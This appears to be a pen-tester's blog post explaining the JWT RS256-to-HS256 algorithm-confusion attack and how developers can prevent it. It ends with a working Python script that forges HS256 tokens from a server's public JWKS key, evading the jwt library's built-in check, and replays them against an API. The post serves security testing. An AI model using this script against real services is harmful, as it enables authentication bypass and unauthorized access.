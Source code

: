 ```yaml
---
layout: post
title: "JWT: Signature-vs-MAC attacks"
categories: ["security"]
date: 2019-05-16
keywords:
- json web token
- jwt
- security
- owasp top 10
- mac
- signature
- confusion
- vulnerabiltiy
- python
- jwks
---
```


During a recent pen-test I stumbled upon a [JSON Web Token](https://en.wikipedia.org/wiki/JSON_Web_Token)(in short: JWT) based authorization scheme. JWTs consist of three parts: header, payload and verification information. The initial header part contains the name of the algorithm that will later be used to generate the verification part of the JWT. This is dangerous as an attacker can change this information and thus (maybe) control what scheme will be used for verification by the server.

Two commonly used schemes are RS256 ([digital signature](https://en.wikipedia.org/wiki/Digital_signature)-based algorithm) and HS256 ([MAC](https://en.wikipedia.org/wiki/Message_authentication_code)-based algorithm). An insecure option would be the NULL-scheme: do not include any verification information at all --- sadly the NULL scheme was not accepted by the target web server.

There is a slight change of a "type confusion"-alike attack against JWT that can occur if the server implementation uses a JWT verification library by just calling code similar to `verify(token, key)` and assumes that only digitally-signed tokens will be used. In this case, the second parameter `key` will always be the public key that will be sued for verification (digital signatures use a private key for creating the signature, and the corresponding public key for verifying the created signature).

An attacker can now retrieve the public key, create a new MAC-based token and use the public key for creating the verification part of the newly created token. In a MAC-based scheme only a secret key is needed to create the verification information and the attacker thus uses the public key (of the digital signature) as secret key for the MAC. If this token is now passed to the `verify` operation on the server, the library would identify the to-be-used scheme from the token (which was set by the attacker to be `HS256` indicating the MAC-scheme). The verification library will then use the second parameter as input for creating the MAC. As this is the public key, the created MAC is the same as the MAC passed by the attacker, both match and the server will accept the forged token. What should have the application developer done better? If a token is accepted by the server, it must always check if the used algorithm is the same as the developer originally assumed to be used.

In theory, this should be easy to test but I didn't find any working tool for that. So I scripted it myself in python. To use it, you have to configure the following in the source code:

* `jwks_url`: where to get the public key info from. [JWKS](https://auth0.com/docs/jwks) is used to publicly distribute key information by many services.
* `operation_url`: an HTTP GET operation that users a JWT-token for authorization
* `token`: a valid JWT for the configured operation
* `audience`: the audience that the token was configured for

The script does the following:

* download a JWKS configuration file and extract the public key parameters. Create a pem-representation out of that.
* verify that the configured token can be validated with the extracted public key
* perform the configured operation with the valid token and output both the resulting HTTP status code as well as the resulting document (it is assumed that this will be a JSON document)
* create a new token based upon the configured token. In this token the token type will be changed to `HS256`; a MAC (based upon the public key) will be computed and used as verification information for the token.
* execute the configured operation again with the modified token and output the HTTP status code as well as the returning document.

As the returning status code (with the modified token) was 401 (authorization denied) the server-side authorization checks of the target web-server seem to work and it thus was not vulnerable against the signature-vs-mac confusion attack. If it would have been worked, identical HTTP status codes and similar result documents should have been produced by both HTTP calls (with the original as well as with the modified token).

Hope that helps with your pen-testing, feel free to adapt the python script:


~~~ python
import jwt
import requests

from jwcrypto import jwk
from cryptography.x509 import load_pem_x509_certificate
from cryptography.hazmat.backends import default_backend

# configuration
jwks_url = "https://localhost/oauth2/.well-known/jwks.json"
operation_url = "https://localhost/web/v1/user/andy"
audience = "https://localhost"
token = "eyJh..."

# retrieves key from jwks
def retrieve_jwks(url):
    r = requests.get(url)
    if r.status_code == 200:
        for key in r.json()['keys']:
            if key['kty'] == "RSA":
                return jwk.JWK(**key)
        print("no usable RSA key found")
    else:
        print("could not retrieve JWKS: HTTP status code " + str(r.status_code))

def extract_payload(token, public_key, audience):
    return jwt.decode(token, public_key, audience=audience, algorithms='RS256')

def retrieve_url(url, token):
    header = {'Authorization' : "Bearer " + token}
    return requests.get(url, headers=header)

# call the original operation and output it's results
original = retrieve_url(operation_url, token)
print("original: status: " + str(original.status_code) + "\nContent: " + str(original.json()))

# get key and extract the original payload (verify it during decoding to make
# sure that we have the right key, also verify the audience claim)
public_key = retrieve_jwks(jwks_url).export_to_pem()
payload = extract_payload(token, public_key, audience)
print("(verified) payload: " + str(payload))

# create a new token based upon HS256, cause the jwt library checks this
# to prevent against confusion attacks.. that we actually try to do (:
mac_key = str(public_key).replace("PUBLIC", "PRIVATE")
hs256_token = jwt.encode(payload, key=mac_key, algorithm="HS256")

# call the operation with the new token
modified = retrieve_url(operation_url, str(hs256_token))
print("modified: status: " + str(modified.status_code) + "\nContent: " + str(modified.json()))
~~~
